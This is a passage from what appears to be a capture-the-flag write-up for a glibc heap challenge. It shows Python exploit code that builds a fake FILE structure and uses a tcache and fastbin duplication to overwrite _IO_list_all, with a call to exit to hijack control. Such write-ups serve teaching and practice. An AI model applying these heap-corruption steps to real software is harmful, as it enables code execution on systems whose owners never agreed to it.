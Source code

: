 ```python
fp = heap + 0x2a0
payload = fsrop(fp)
alloc(0, payload[:0x40])
alloc(1, payload[0x50:0x50+0x40])
alloc(2, payload[0xa0:0xa0+0x40])
```
Next, I cleared the bins and performed a `house of plastic cake` operation, filling the tcache and then `fastbin dup`. The target is `_IO_list_all`, which we will fill with our fp, and then just call `exit`.

```python
alloc(7, p64(mangle(heap, libc.sym["_IO_list_all"])))
alloc(8, b"\x00")
alloc(8, b"\x00")
alloc(9, p64(fp)) # _IO_list_all = fp
menu(2) #exit
menu(0)
```

![alt](../../../img/CTFNational/HackToday_CTF_2025/Solve3.png)

